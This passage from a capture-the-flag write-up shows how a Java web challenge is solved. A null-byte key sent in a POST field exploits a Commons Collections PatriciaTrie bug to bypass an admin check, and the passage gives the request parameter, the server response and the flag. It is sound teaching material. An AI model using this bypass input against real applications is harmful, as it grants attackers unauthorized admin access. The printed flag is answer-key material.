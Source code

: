 
It failed writing to `trie`! That means what I POST gets written to
`trie`. And, in the callstack, there's this:



    com.jwt.jsf.bean.NotesBean.setTrie(NotesBean.java:43)



So it's happening in the `setTrie` function. So now I can theorize that
that parameter is being passed to `setTrie()`.

I've got all the pieces now to make this attack. The `trie` object is
initialized with a key of `securitytoken` (or `auth_token_4835989`) with
value 0. Then I post something, and the name field is passed to
`setTrie`, which tries to write a second key with my input and value 0.
Then `getTrie` is called, which calls `isAdmin`. To be admin, the key
`auth_token_4835989` has to not be there.

If I post with the name of `auth_token_4835989\u0000`, due to the bug in
Common Collections PatriciaTrie, it will overwrite the original key with
mine. Then when Java checks to see if the key `auth_token_4835989` is
present, it won't be, because only `auth_token_4835989\u0000` remains.

In practice, I POST with `j_idt14%3Aname=auth_token_4835989%5cu0000`
(rest of the parameters the same), and I get back:



    HTTP/1.1 200 
    X-Powered-By: JSF/2.0
    Content-Type: text.md;charset=UTF-8
    Content-Length: 560
    Date: Fri, 13 Dec 2019 02:31:03 GMT
    Connection: close

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE.md PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/.md1/DTD/.md1-transitional.dtd">
    .md xmlns="http://www.w3.org/1999/.md"><head>
         <title>SpyPortal</title><link type="text/css" rel="stylesheet" href="/trieme/faces/javax.faces.resource/style.css?ln=css" /></head><body>
         <h3>Secret Spy Portal</h3>
         <h4>STATUS:
          We will steal all the national chocolate supplies at christmas, 3pm: Here's the building codes: HV19{get_th3_chocolateZ}
          
      !</h4></body>
    <.md>



**Flag: `HV19{get_th3_chocolateZ}`**

## Day 14

### Challenge
